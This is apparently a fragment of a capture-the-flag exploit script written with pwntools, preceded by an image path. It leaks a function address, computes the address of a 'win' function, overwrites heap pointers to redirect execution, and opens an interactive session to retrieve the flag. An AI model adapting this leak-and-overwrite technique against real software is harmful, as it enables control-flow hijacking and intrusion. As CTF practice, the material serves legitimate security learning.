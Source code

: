 ```py
p.recvuntil(b"We have registered the following data on the guest:")
p.recvline()
func_leak = u64(p.recvline()[:8].strip().ljust(8,b"\x00"))
log.success(f"get species: {hex(func_leak)=}")

win = func_leak - 0x299f
log.success(f"win: {hex(win)}")

log.info("Change data of room 0 to point to data of room 1")
RegisterAddressData(0, p64(int(heap_leak,16)+0x20))

log.info("Change data of room 1 to win func")
RegisterAddressData(1, p64(win))

log.info("Display room 7 to call win and get flag")
ViewRoom(7)

p.interactive()
```





